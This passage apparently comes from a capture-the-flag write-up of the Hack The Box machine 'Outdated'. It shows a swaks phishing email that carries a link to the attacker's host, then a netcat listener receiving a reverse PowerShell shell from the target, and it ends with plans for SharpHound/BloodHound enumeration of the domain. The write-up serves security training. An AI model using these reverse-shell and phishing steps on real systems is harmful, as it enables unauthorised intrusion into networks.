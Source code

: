 ```bash
 -> From: bokchee@paeeri.com
 -> Subject: http://10.10.14.14
 -> Message-Id: <20241128140245.068341@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> 
 -> http://10.10.14.14
 -> 
 -> 
 -> .
<-  250 Queued (10.360 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

Then, let's open a listener and wait for connection.

```bash
┌──(kali㉿kali)-[~/htb/follina.py]
└─$ stty raw -echo; (stty size; cat) | nc -lvnp 9001
listening on [any] 9001 ...
                           connect to [10.10.14.14] from (UNKNOWN) [10.10.11.175] 49874

<SNIP>

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\btables\AppData\Local\Temp\SDIAG_fc85bb81-7cff-4679-80e3-69f817
43adfb> whoami
outdated\btables
```

Now I have a shell as `btables`!

Since it's Active Domain Controller, let's collect DC info using `SharpHound.exe`.
Let's use `SharpHound.exe` and `PSUpload.ps` to do it.

# Shell as `sflowers`

### BloodHound

Let's check `btables` as owned, and run `Shortest Path to Domain Admins from Owned Principals`.

![](attachments/outdated_2.png)
